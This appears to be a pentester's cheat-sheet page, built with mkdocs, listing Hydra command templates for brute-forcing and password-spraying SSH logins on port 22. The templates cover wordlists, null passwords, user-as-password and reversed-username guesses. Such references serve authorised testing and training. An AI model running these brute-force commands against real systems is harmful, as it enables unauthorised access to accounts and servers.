

repository: Kevinovitz/cyber-security-megathread · page: arsenal/Example/index.html · generator: mkdocs

# Hydra

% bruteforce, access

## Hydra - ssh - userlist and password list - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -L <userlist> -P <passlist> <ip> ssh 
```

## Hydra - ssh - user and password  - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```bash
hydra -l <user|root> -p <password|root> <ip> ssh 
```

## Hydra - ssh - user=password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e s <ip> ssh 
```

## Hydra - ssh - null password - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -l <user|root> -e n <ip> ssh 
```

## Hydra - ssh - password=reverseuser - 22
#plateform/linux #target/remote #protocol/ssh #port/22 #cat/ATTACK/BRUTEFORCE-SPRAY 

```
hydra -L <userlist> -e r <ip> ssh 
```
